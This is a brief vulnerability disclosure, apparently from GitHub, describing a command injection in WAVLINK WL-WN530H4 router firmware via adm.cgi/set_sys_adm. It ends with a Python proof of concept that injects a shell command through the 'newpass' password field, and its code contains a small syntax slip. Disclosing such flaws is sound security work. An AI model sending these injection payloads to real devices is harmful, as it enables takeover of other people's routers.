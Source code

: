 # command injection

## WAVLINK_WL-WN530H4

version: 20220801

## Description:

There is a command injection in adm.cgi/set_sys_adm

## Source:

you may download it from : 

[WL-WN530H4 - WAVLINK See the world! Powered by Wavlink](https://www.wavlink.com/en_us/firmware/details/c5834c4010.html)## Analyse:

![](1.png)

get value from SYSPASS

![](2.png)

if password is correct and new passwd is changed, get into else

![](3.png)

finally, call system, cause command injection

## POC

```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = ';ls > /tmp/1  ' + '\n'

r = requests.post(url, data={ 'page':'sysAdm', 'newpass': + payload, 'SYSPASS':'your password'})
```
